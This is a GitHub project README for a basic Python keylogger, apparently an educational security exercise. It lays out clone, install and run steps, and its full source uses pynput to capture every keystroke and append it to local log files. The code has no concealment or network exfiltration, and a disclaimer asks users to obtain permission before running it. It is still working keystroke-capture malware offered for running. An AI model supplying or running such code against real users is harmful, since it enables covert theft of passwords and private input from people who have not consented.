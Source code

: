 # Simple Keylogger

This project demonstrates a basic keylogger program that records and logs keystrokes. The keylogger captures the keys pressed by the user and saves them to a file named `keylog.txt`.

**Important Note**: This keylogger is intended for educational purposes only. Always ensure you have explicit permission to log keystrokes on any system you use this code on. Unauthorized use of keyloggers can be illegal and unethical.

## Features

- Logs all keystrokes pressed by the user.
- Saves the logged keystrokes to a file named `keylog.txt`.

## Prerequisites

- Python 3.x
- `pynput` library

## Installation

1. Clone this repository to your local machine:

    ```sh
    git clone https://github.com/oraclebrain/PRODIGY_CS_04.git
    ```

2. Navigate to the project directory:

    ```sh
    cd PRODIGY_CS_04
    ```

3. Install the required dependencies:

    ```sh
    pip install pynput
    ```

## Usage

1. Run the keylogger script:

    ```sh
    python keylogger.py
    ```

2. The script will start logging keystrokes and save them to `keylog.txt` and special keys will store to `special_keylog.txt`.

## Code Overview

```python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keylog.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except AttributeError:
            with open("special_keylog.txt", 'a') as special_key:
                special_key.write('Special key {0} pressed, '.format(key))

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
